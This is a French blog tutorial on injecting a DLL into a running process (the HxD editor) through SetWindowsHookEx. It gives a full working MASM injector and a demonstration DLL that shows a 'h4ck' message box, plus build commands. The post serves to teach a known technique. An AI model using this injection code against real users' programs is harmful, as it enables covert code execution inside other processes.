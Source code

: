 
Est présenté dans cet article une manière d'effectuer de l'injection de DLL via la fonction __SetWindowsHookEx()__.

Cet article fait suite aux articles précédents:

* https://dokyx.fr/blog/oirtslkdf_injectdll_createremotethread/

* https://dokyx.fr/blog/uyniouliu_injectdll_ntcreatethreadex/

* https://dokyx.fr/blog/lsdjqfqf_injectdll_rtlcreateuserthread/

Dans les articles précédents, on était partis au fur et à mesure dans l'étude de fonctions non docummentées de Windows, ce qui nécessitait d'user de méthode de reverse engineering. A présent, on rebascule sur une fonction documentée: __SetWindowsHookEx()__ qui est présente dans la DLL __User32.dll__.

La msdn de la fonction __SetWindowsHookEx()__ (https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-setwindowshookexa) nous dit que cette fonction permet de mettre en place une procédure de __**hook**__ dans une __chaine de **hooks**__. Un **hook** permet de remplacer **quelque chose** par un **machin**, puis de remettre ce **quelque chose** une fois le **machin** exécuté.

Dans ce cas précis, la fonction __SetWindowsHookEx()__ permet de capturer des évenements Windows afin d'effectuer des actions lors d'un déplacement de souris, d'une frappe clavier, d'un message, etc. La liste des **hooks** disponible en utilisant la fonction __SetWindowsHookEx()__ est présentée ci-dessous, et est bien évidemment disponible dans la msdn de la fonction:

```
| ------------------------------------------------------------------ | 
| WH_CALLWNDPROC: 4     | WH_CALLWNDPROCRET: 12 | WH_CBT: 5          |
| WH_DEBUG: 9           | WH_FOREGROUNDIDLE: 11 | WH_GETMESSAGE: 3   |
| WH_JOURNALPLAYBACK: 1 | WH_JOURNALRECORD: 0   | WH_KEYBOARD: 2     |
| WH_KEYBOARD_LL: 13    | WH_MOUSE: 7           | WH_MOUSE_LL: 14    |
| WH_MSGFILTER: -1      | WH_SHELL: 10          | WH_SYSMSGFILTER: 6 |
| ------------------------------------------------------------------ | 
```

Le mécanisme de cette injection de DLL est très simple, il va consister à mettre une place une procédure de **hook** pour une interruption clavier (ou souris, ou autres) sur l'application cible. Une fois cette interruption détectée, une fonction définie en avance de phase et présente dans la DLL malveillante sera exécutée dans le thread du processus victime. 

Pour ces exemples d'injection de DLL, j'utilise toujours le logiciel victime __HxD__. Je ne vais pas déroger à cette règle.

Lorsque le mécanisme de **hook** aura été mis en place, il me suffira d'écrire un texte (si je **hook** une interruption clavier ) dans __HxD__ pour déclencher le chargerement ma DLL en mémoire et ainsi exécuter une fonction de ma DLL que j'aurais exportée lors de la compilation de la DLL (elle s'appelera __myFunc()__).

Comme ma DLL n'est pas initialement chargée en mémoire par Windows, je ne peux pas directement faire appel à ma fonction __myFunc()__. Je commence donc par charger ma DLL en mémoire avec __LoadLibraryA()__ (kernel32.dll), puis je retrouve l'adresse de __myFunc()__ avec __GetProcAddress()__ (kernel32.dll) comme suit:

```
.data
    dllPath     db "C:\Users\User 1\Desktop\inject.dll",0
    func_to_inject  db "myFunc", 0

.data?
    hDll        dd ?
    hFunc       dd ?

.code
    push    offset dllPath
    call    LoadLibraryA
    mov     [hDll], eax

    push    offset func_to_inject
    push    eax
    call    GetProcAddress
    mov     [hFunc], eax
```

Il faut savoir que l'on ne peut utiliser __SetWindowsHookEx()__ que sur un **thread** en cours, et non sur un processus. Chaque processus contient au moins 1 thread. En effet, un processus n'exécute pas de code, il contient des threads et leurs fournis un espace d'adresses virtuelles dans lesquelles évoluer. Ce sont donc les threads qui exécutent du code. Ainsi, un processus doit au moins contenir un thread afin d'exécuter le code du programme que l'on souhaite exécuter.

Le défis consiste à retrouver le thread de notre processus victime sachant que l'on connait le __Process IDentifier__ (PID) de notre process car il est publiquement disponible.

Je vais utiliser la fonction __CreateToolhelp32Snapshot()__ (kernel32.dll) qui permet d'effectuer un **snapshot** d'un processus en cours. On trouvera notamment dans ce snapshot les différents __Thread IDentifier__ (TID). Il faut alors parcourir ces __TID__, puis trouver celui qui appartient à notre processus victime. Pour cela, j'utiliserais les fonctions __Thread32First()__ (kernel32.dll) et __Thread32Next()__ (kernel32.dll) pour parcourir la structure du **snapshot**.

En parlant de structure du **snapshot**, celle-ci est présentée ci-dessous:

```
typedef struct tagTHREADENTRY32 {
  DWORD dwSize;
  DWORD cntUsage;
  DWORD th32ThreadID;
  DWORD th32OwnerProcessID;
  LONG  tpBasePri;
  LONG  tpDeltaPri;
  DWORD dwFlags;
} THREADENTRY32;
```

On y voit bien le __th32ThreadID__ qui est le __TID_ de thread, et le __th32OwnerProcessID__ qui est son __PID__.

Le **snapshot** est crée comme suit:

```
.data
    PID         dd 13284

.data?
    hSnapshot   dd ?

.code
    mov     eax, PID
    push    eax
    push    4 ; TH32CS_SNAPTHREAD
    call    CreateToolhelp32Snapshot
    mov     [hSnapshot], eax
```

Et pour comparer le PID du processus exécutant le thread avec celui dans le **snapshot** j'utilise le code suivant (remarquer la référence à __th32OwnerProcessID__ qui permet de s'assurer que l'on regarde bien le processus victime):

```
tagTHREADENTRY32 struct
    dwSize      dd ?
    cntUsage    dd ?
    th32ThreadID    dd ?
    th32OwnerProcessID dd ?
    tpBasePri   dd ?
    tpDeltaPri  dd ?
    dwFlags     dd ?
tagTHREADENTRY32 ends

.data
    tte32   tagTHREADENTRY32 <sizeof tagTHREADENTRY32>

.code
; get the first thread in the snapshot
    push    offset tte32
    push    [hSnapshot]
    call    Thread32First

; compare the PID owner of the thread with the PID of the process to inject
loop_to_find_thread:
    mov     ebx, PID
    cmp     [tte32.th32OwnerProcessID], ebx
    jz      thread_found
   
    push    offset tte32
    push    [hSnapshot]
    call    Thread32Next

    jmp     loop_to_find_thread 

thread_found:
```

Et enfin, je met le **hook** en place grâce à la fonction __SetWindowsHookEx()__ sur le thread spécifié par le __th32ThreadID__ du processus victime:

```
.data?
    hHook       dd ?

.code
    push    tte32.th32ThreadID
    push    hDll
    push    hFunc
    push    2 ; WH_MOUSE: 7, WH_KEYBOARD: 2
    call    SetWindowsHookExA
    mov     [hHook], eax
```

Cette méthode de mise en place de **hook** est d'ailleurs présentée dans la documentation msdn ... bah voyons (https://docs.microsoft.com/fr-fr/windows/win32/winmsg/using-hooks).

Il suffit ensuite d'attendre que l'utilisateur effectue une interruption clavier, souris, ... sur le processus/thread victime afin de mettre en place la chaine de **hooks** qui exécutera la fonction __myFunc()__ de notre DLL malveillante.

<details><summary><font color="red">Ici se trouve le code permettant de faire de l'injection de DLL via SetWindowsHookEx()</font></summary>
<p>
```
.586
.model flat, stdcall

; kernel32.dll
GetLastError PROTO STDCALL
ExitProcess PROTO STDCALL :DWORD
LoadLibraryA PROTO STDCALL :DWORD
GetProcAddress PROTO STDCALL :DWORD, :DWORD
CreateToolhelp32Snapshot PROTO STDCALL :DWORD, :DWORD
Thread32First PROTO STDCALL :DWORD, :DWORD
Thread32Next PROTO STDCALL :DWORD, :DWORD
Sleep PROTO STDCALL :DWORD

; user32.dll
SetWindowsHookExA PROTO SDTCALL :DWORD, :DWORD, :DWORD, :DWORD
UnhookWindowsHookEx PROTO STDCALL :DWORD


;https://www.elastic.co/fr/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process
; https://docs.microsoft.com/en-us/windows/win32/winprog/windows-data-types

tagTHREADENTRY32 struct
    dwSize      dd ?
    cntUsage    dd ?
    th32ThreadID    dd ?
    th32OwnerProcessID dd ?
    tpBasePri   dd ?
    tpDeltaPri  dd ?
    dwFlags     dd ?
tagTHREADENTRY32 ends

.data
    dllPath     db "C:\Users\User 1\Desktop\inject.dll",0
    func_to_inject  db "myFunc", 0
    tte32       tagTHREADENTRY32 <sizeof tagTHREADENTRY32>
    PID         dd 13284
    
.data?
    hDll        dd ?
    hFunc       dd ?
    hSnapshot   dd ?
    hHook       dd ?


.code
Start PROC
    
; modify the DLL using CFF Explorer to modify the name of the exported function to be myFunc !!
    push    offset dllPath
    call    LoadLibraryA
    mov     [hDll], eax

    push    offset func_to_inject
    push    eax
    call    GetProcAddress
    mov     [hFunc], eax

; Snapshot of process to get threads
    mov     eax, PID
    push    eax
    push    4 ; TH32CS_SNAPTHREAD
    call    CreateToolhelp32Snapshot
    mov     [hSnapshot], eax

; get the first thread in the snapshot
    push    offset tte32
    push    [hSnapshot]
    call    Thread32First

; compare the PID owner of the thread with the PID of the process to inject
loop_to_find_thread:
    mov     ebx, PID
    cmp     [tte32.th32OwnerProcessID], ebx 
    jz  thread_found
    
    push    offset tte32
    push    [hSnapshot]
    call    Thread32Next

    jmp     loop_to_find_thread  


thread_found:
    push    tte32.th32ThreadID
    push    hDll
    push    hFunc
    push    2 ; WH_MOUSE: 7, WH_KEYBOARD: 2
    call    SetWindowsHookExA 
    mov     [hHook], eax

    push    2710h ; = 10000 ms = 10 s to tirg the mecanism: keyboard, mouse ..
    call    Sleep

    push    [hHook]
    call    UnhookWindowsHookEx

go_out:
    xor     eax, eax
    push    eax
    call    ExitProcess

Start ENDP
End
```
</p>
</details>

Ici, on peut constater que j'ai effectué un __Sleep()__ de 10 seconde, et ce afin de me laisser le temps de switcher sur le processus victime afin de déclencher mon interuption. En pratique, il ce n'est pas une bonne méthode ... n'est ce pas?

La DLL utilisée est présentée dans le code ci-dessous. Elle diffère légerement de la DLL utilisée lors des articles précédent, en ce sens que l'**entry point** de la DLL (__DLL\_PROCESS\_ATTACH__) ne doit rien executer de visible par l'utilisateur. En revanche il doit tout de même faire appel à une fonction (je ne sais pas pourquoi, si quelqu'un a la solution ... merci).


<details><summary><font color="red">Ici se trouve le code de la DLL malveillante utilisée</font></summary>
<p>
```
.586
.model flat, stdcall


; kernel32.dll
GetLastError PROTO STDCALL
ExitProcess PROTO STDCALL 		dwExitCode:DWORD
MessageBoxA PROTO STDCALL :DWORD,:DWORD,:DWORD,:DWORD


.data
	sTitle      db  'h4ck', 0
    sMsg		db  'h4ck', 0

.data?
    hInstance dd ?

.code

LibMain PROC hInstDLL:DWORD, reason:DWORD, unused:DWORD
    ; https://docs.microsoft.com/en-us/windows/win32/dlls/dllmain
    .if reason == 1 ; DLL_PROCESS_ATTACH
        call nothing

    .elseif reason == 3 ; DLL_THREAD_DETACH
	nop

    .elseif reason == 2 ; DLL_THREAD_ATTACH
    	nop   
    
    .elseif reason == 0 ; DLL_PROCESS_DETACH
      	nop
    .endif

    ret

LibMain ENDP

; function that will be exported
myFunc PROC 
    call    _MessageBox
    ret

myFunc ENDP


nothing PROC
    call GetLastError
    ret
nothing ENDP

_MessageBox PROC
        push        0
        push        offset sTitle
        push        offset sMsg
        push        0 
        call       MessageBoxA

    ret

_MessageBox ENDP

END ; LibMain
```
</p>
</details>

Afin d'exporter la fonction __myFunc__, il faut le spécifer au compilateur/**linkeur** de la manière suivante:

```
ml.exe myDll.asm /link /subsystem:windows /DLL /defaultlib:"kernel32.lib"  /entry:LibMain /out:myDll.dll /def:myDll.def
```

Le paramètre important est: __/def:myDll.def__. Le fichier __myDll.def__ contient:

```
LIBRARY myDll
EXPORTS myFunc
EXPORTS nothing
```

Et voilà, je ne pense pas qu'il soit utile de présenter des screenshots pour cet article car tout est dans le code finalement. Cependant si certaines choses manquent de clarté, n'hésitez pas à revenir vers moi.




